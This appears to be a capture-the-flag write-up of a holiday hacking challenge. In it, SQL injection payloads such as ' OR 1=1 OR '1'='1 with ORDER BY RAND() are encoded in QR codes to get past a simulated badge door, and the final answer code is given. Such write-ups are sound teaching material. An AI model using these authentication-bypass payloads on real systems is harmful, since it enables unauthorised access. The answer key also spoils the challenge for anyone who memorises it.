# 6. Badge Manipulation
> Bypass the authentication mechanism associated with the room near Pepper Minstix. A [sample employee badge](../assets/images/alabaster_badge.jpg) is available. What is the access control number revealed by the door authentication panel? For hints on achieving this objective, please visit Pepper Minstix and help her with the Yule Log Analysis Cranberry Pi terminal challenge.

1. Get the badge, read it in a website like https://online-barcode-reader.inliteresearch.com/ and get:
`oRfjg5uGHmbduj2m`
2. Build a new QR code using for example [this site](https://www.the-qrcode-generator.com/) which contains:
``

Upload the QR code in the door.

3. Note the XHR request and the response:
```javascript
{
  "data":"EXCEPTION AT (LINE 96 \"user_info = query(\"SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '{}' LIMIT 1\".format(uid))\"): (1064, u\"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' LIMIT 1' at line 1\")",
  "request":false
}
```

4. Our payload will be injected right there where the `{}` characters are. The query will look like:
`SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '(OUR PAYLOAD)' LIMIT 1`

In order to bypass the validation our payload should:
a-Close the first apostrophe.
b-Add a condition that will match
c-Keep the query valid.


`SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '<<' OR 1=1 OR '1'='1>>' LIMIT 1`

Because of the operator precedence in MariaDB, the query above will be parsed as:

```sql
SELECT first_name,last_name,enabled FROM employees WHERE
(authorized = 1) AND
(uid = '' OR 1=1 OR '1'='1')
LIMIT 1
```

5. Built the 2nd QR code, and the response I've got was:
`{"data":"Authorized User Account Has Been Disabled!","request":false}`

We'll need to come up with a payload that will bypass the first user. `ORDER BY RAND(), '` at the end might help.

Tried it once, got ```
{"data":"Authorized User Account Has Been Disabled!","request":false}
```
Tried it again, got
```
{
"data":"User Access Granted - Control number 19880715","request":true,
"success":{"hash":"5138331feac6c49c72ecef48643de5f2963dd688f0a586f45ec88d682c320928","resourceId":"e08e9d33-c62b-4a20-83e4-bb45284ea365"}}
```

Access granted!

The answer to the challenge is:

`19880715`
